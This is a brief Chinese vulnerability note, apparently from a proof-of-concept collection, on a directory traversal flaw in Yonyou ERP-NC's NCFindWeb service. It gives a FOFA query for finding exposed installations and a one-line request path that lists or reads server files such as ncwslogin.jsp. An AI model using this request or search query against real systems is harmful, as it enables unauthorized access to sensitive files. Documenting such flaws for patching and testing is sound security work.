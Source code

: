 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

<a-checkbox checked>用友ERP-NC</a-checkbox></br>

## FOFA

<a-checkbox checked>app="用友-UFIDA-NC"</a-checkbox></br>

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![img](../../../.vuepress/public/img/yongyou-8.png)



查看 ncwslogin.jsp 文件



![img](../../../.vuepress/public/img/yongyou-9.png)